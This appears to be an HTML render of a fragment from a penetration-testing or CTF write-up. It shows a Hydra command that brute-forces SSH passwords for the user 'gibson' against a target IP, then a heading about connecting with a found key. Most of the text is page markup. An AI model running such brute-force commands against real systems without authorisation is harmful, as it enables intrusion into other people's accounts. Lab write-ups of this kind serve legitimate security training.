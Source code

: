 <div dir="auto" class="css-901oao r-1rasi3h r-uibjmv r-1b43r93 r-16dba41 r-hbpseb r-1ff274t">2</div>

</div>

<div dir="auto" class="css-901oao r-1nf4jbm r-uibjmv r-1b43r93 r-16dba41 r-hbpseb r-1v6e3re r-116b19x r-1xnzce8 r-yrgyi6"><span data-key="47bbb8f882b74eff8563d20cc3f1362d"><span data-offset-key="47bbb8f882b74eff8563d20cc3f1362d:0">hydra -l gibson -P /tmp/alpha.txt -T</span> <span data-slate-leaf="true" data-offset-key="47bbb8f882b74eff8563d20cc3f1362d:1" class="r-11faab8">20</span> <span data-offset-key="47bbb8f882b74eff8563d20cc3f1362d:2"></span> <span data-slate-leaf="true" data-offset-key="47bbb8f882b74eff8563d20cc3f1362d:3" class="r-qtrn9a">$ip</span> <span data-offset-key="47bbb8f882b74eff8563d20cc3f1362d:4"></span> <span data-slate-leaf="true" data-offset-key="47bbb8f882b74eff8563d20cc3f1362d:5">ssh</span></span></div>

</div>

</div>

<div contenteditable="false" class="r-1oszu61 r-1xc7w19 r-1phboty r-1yadl64 r-deolkf r-6koalj r-1mlwlqe r-eqz5dr r-1q142lx r-mabqd8 r-crgep1 r-ifefl9 r-bcqeeo r-t60dpp r-u8s1d r-zchlnj r-s5r7i3 r-1yvhtrz r-417010">

<div class="css-1dbjc4n r-1awozwy r-c8fpu0 r-12141jf r-18c69zk r-rs99b7 r-6koalj r-18u37iz r-1777fci r-1pn2ns4 r-u8s1d r-q4m81j r-1vzi8xi r-s5r7i3 r-7xmw5f" style="height:26px;left:-50px;min-width:26px;opacity:0" id="animatedComponent">

<div class="css-1dbjc4n">

<div dir="auto" class="css-901oao r-jwli3a r-gg6oyi r-1enofrn r-16dba41 r-14yzgew"> </div>

</div>

</div>

</div>

</div>

</div>

</div>

</div>

<div>

<div data-key="954547ec12bb449aa694fa4dbfa5ba19" class="r-1oszu61 r-1xc7w19 r-1phboty r-1yadl64 r-deolkf r-6koalj r-1mlwlqe r-eqz5dr r-1q142lx r-crgep1 r-ifefl9 r-bcqeeo r-t60dpp r-xd6kpl r-tskmnb r-1yzf0co r-bnwqim r-417010">

<div data-block-content="954547ec12bb449aa694fa4dbfa5ba19" class="r-1oszu61 r-1xc7w19 r-1phboty r-1yadl64 r-deolkf r-6koalj r-1ro0kt6 r-eqz5dr r-16y2uox r-1wbh5a2 r-crgep1 r-ifefl9 r-bcqeeo r-t60dpp r-bnwqim r-417010">

<div dir="auto" class="css-901oao r-1nf4jbm r-gg6oyi r-ubezar r-16dba41 r-135wba7 r-fdjqy7 r-1xnzce8"><span data-key="34fc0c18dd334d7f8513da63e1f914b5"><span data-offset-key="34fc0c18dd334d7f8513da63e1f914b5:0">Connect through found key</span></span></div>

</div>

</div>
